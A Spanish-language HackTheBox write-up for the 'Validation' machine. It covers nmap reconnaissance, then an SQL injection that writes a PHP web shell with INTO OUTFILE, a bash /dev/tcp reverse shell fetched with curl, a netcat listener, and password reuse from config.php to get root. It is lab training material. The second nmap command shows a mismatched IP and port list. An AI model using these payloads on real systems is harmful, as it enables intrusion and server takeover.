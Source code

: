 ```yaml
---
title: Validation | Linux
published: 2025-02-24
image: "./logo.png"
tags: [Easy, Linux, SQLi, RCE, Information Leakage, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- SQLI (Error Based)  
- SQLI -> RCE (INTO OUTFILE)  
- Information Leakage

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.116`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false

```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49715 10.10.11.174 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.174`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false

```

Al ver que tenemos un puerto **http** abierto vamos a hacer un reconocimiento de las tecnologías web que usa con **whatweb**.

```bash wrap=false
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

Vemos que usa `PHP` principalmente junto con **Apache**. Nada más entrar a la web podemos ver un pequeño formulario de registro con 2 campos.

![Formulario](./1.png)

## Explotación

El campo del **usuario** no es vulnerable a **SQL Injection**, pero podemos interceptar la petición con **Burpsuite** y ver si el campo del "_País_" es vulnerable.

![SQL Injection](./2.png)

Bingo! Como podemos ver con una sola **'**, vemos que da un error, por lo cual es vulnerable. Vamos a intentar subir una **web shell** básica para **PHP**.

```php wrap=false
<?php system($_GET['cmd']); ?>
```

Así quedaría la inyección en la solicitud.

```txt wrap=false
username=sqli&country=Brazil' union all select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wshell.php" -- -
```


![CMD Injection](./3.png)

Perfecto, hemos conseguido la web shell funcional, por lo que vamos a intentar obtener una persistencia. Usaremos esta **Bash TCP reverse shell**.

```bash wrap=false
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y luego la pasaremos al servidor mediante un servidor local con **python**.

```bash wrap=false
python -m http.server 80
```

Después en la **URL** pondremos lo siguiente para obtener la **shell**.

```bash wrap=false
<URL>?cmd=curl+<IP>:80/revshell.sh > revshell.sh
```

Una vez subido, para comprobar que todo ha ido bien, si ejecutamos un **ls** deberíamos poder ver la **revshell.sh.**&#x20;

Para ejecutarla nos pondremos en escucha primero por el puerto que hayamos escogido con **netcat**.

```bash wrap=false
nc -lvnp <PORT>
```

Simplemente la ejecutamos en el servidor.

```bash wrap=false
bash revshell.sh
```

Si todo ha ido bien, deberíamos tener la reverse shell.

![Reverse Shell](./4.png)

Estando dentro podemos ver que hay un archivo **config.php**, así que veremos su contenido, puede ser importante.

![config.php](./5.png)

Gracias al comando:

```bash wrap=false
cat /etc/passwd | grep "bash"
```

Podemos ver que solo existe el usuario **root**, que si probamos con la contraseña del **config.php** parecerá que se queda estancado, pero realmente ya hemos accedido al usuario y tenemos root. Ya solo queda obtener ambas flags del directorio `/home/<usuario>/user.txt` y `/root/root.txt`.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/382)

---